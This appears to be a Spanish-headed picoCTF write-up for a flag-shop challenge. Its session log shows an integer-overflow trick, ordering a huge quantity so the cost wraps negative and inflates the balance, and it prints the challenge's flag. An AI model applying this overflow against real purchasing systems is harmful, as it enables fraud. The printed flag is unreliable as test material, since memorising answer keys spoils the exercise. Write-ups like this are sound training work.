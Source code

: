 ## Descripción

There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c). Connect with `nc jupiter.challenges.picoctf.org 44566`.
## Pistas

1. Two's compliment can do some weird things when numbers get really big!

## Solución

`Welcome to the flag exchange`
`We sell flags`

1. `Check Account Balance`

2. `Buy Flags`

3. `Exit`

 `Enter a menu selection`
`2`
`Currently for sale`
1. `Defintely not the flag Flag`
2. `1337 Flag`
`1`
`These knockoff Flags cost 900 each, enter desired quantity`
`1`

`The final cost is: 900`

`Your current balance after transaction: 200`

`Welcome to the flag exchange`
`We sell flags`

1. `Check Account Balance`

2. `Buy Flags`

3. `Exit`

 `Enter a menu selection`
`2`
`Currently for sale`
1. `Defintely not the flag Flag`
2. `1337 Flag`
`2`
`1337 flags cost 100000 dollars, and we only have 1 in stock`
`Enter 1 to buy one1`

`Not enough funds for transaction`


`Welcome to the flag exchange`
`We sell flags`

1. `Check Account Balance`

2. `Buy Flags`

3. `Exit`

 `Enter a menu selection`
`2`
`Currently for sale`
1. `Defintely not the flag Flag`
2. `1337 Flag`
`2`
`1337 flags cost 100000 dollars, and we only have 1 in stock`
`Enter 1 to buy one1000000000000000000000000000000`
`Welcome to the flag exchange`
`We sell flags`

3. `Check Account Balance`

4. `Buy Flags`

5. `Exit`

 `Enter a menu selection`
`2`
`Currently for sale`
1. `Defintely not the flag Flag`
2. `1337 Flag`
`1`
`These knockoff Flags cost 900 each, enter desired quantity`
`10000000000000000`

`The final cost is: -494665728`

`Your current balance after transaction: 494665928`

`Welcome to the flag exchange`
`We sell flags`

1. `Check Account Balance`

2. `Buy Flags`

3. `Exit`

 `Enter a menu selection`
`2`
`Currently for sale`
1. `Defintely not the flag Flag`
2. `1337 Flag`
`2`
`1337 flags cost 100000 dollars, and we only have 1 in stock`
`Enter 1 to buy one1`
`YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}`
`Welcome to the flag exchange`
`We sell flags`

3. `Check Account Balance`

4. `Buy Flags`

5. `Exit`

 `Enter a menu selection`

YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}

## Notas Adicionales



## Referencias
- 

